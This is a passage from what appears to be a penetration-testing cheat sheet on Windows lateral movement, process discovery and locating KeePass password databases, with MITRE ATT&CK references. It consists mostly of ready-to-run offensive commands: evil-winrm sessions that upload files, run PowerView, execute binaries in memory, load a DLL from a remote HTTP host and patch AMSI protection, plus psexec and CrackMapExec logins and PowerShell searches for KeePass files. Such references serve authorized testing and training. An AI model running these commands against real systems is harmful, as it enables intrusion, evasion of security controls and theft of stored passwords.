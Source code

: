 [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) remote shell/that lets you execute processes on remote windows systems.

Usage:

- **--scripts**: Powershell scripts local path
- **--executables**: C# executables local path
- **--hash**: NTHash

```bash
evil-winrm -i IP -u USERNAME -p PASSWORD --scripts PS_SCRIPTS_PATH --executables EXES_PATH
\*Evil-WinRM\* PS >upload /root/files/                       # Upload a file (Relative paths are not allowed to use on download/upload.)
\*Evil-WinRM\* PS >download file                             # Download file (Relative paths are not allowed to use on download/upload.)
\*Evil-WinRM\* PS >services                                  # List all services showing if there your account has permissions over each one.
\*Evil-WinRM\* PS >PowerView.ps1                             # Executes PowerView.ps1
\*Evil-WinRM\* PS >menu                                      # Displays loaded functions from the PowerShell script executed

# Advanced commands
\*Evil-WinRM\* PS >Invoke-Binary /opt/file.exe               # Allows exes compiled from c# to be executed in memory.
\*Evil-WinRM\* PS >Dll-Loader -http -path http://IP/File.dll # Allows loading dll libraries in memory
\*Evil-WinRM\* PS >Bypass-4MSI                               # Patchs AMSI protection
```

```bash
python psexec.py USERNAME@PASSWORD
```

```bash
cme winrm IP -u USERNAME -p PASSWORD
```

For more information about that technique refer to [T1021.006 - Remote Services: Windows Remote Management](https://attack.mitre.org/techniques/T1021/006/)

#### Process Enumeration

```bash
tasklist # Batch: Display processes currently running.
Get-Process # PowerShell: Display processes currently running.
```

For more information about that technique refer to [T1057 - Process Discovery](https://attack.mitre.org/techniques/T1057/)

#### Password Manager

##### KeePass

```bash
# Detects from where keepass is running
Get-WmiObject win32_process | Where-Object {$_.Name -like '*kee*'} | Select-Object -Expand ExecutablePath
# Searchs where is the binary and the database(s)
Get-ChildItem -Path C:\Users\ -Include @("*kee*.exe", "*.kdb*") -Recurse -ErrorAction SilentlyContinue | Select-Object -Expand FullName | fl
# (Possible) Retreive the KeePass.config.xml
Get-ChildItem -Path C:\Users\ -Include @("KeePass.config.xml") -Recurse -ErrorAction SilentlyContinue | Select-Object -Expand FullName | fl
```
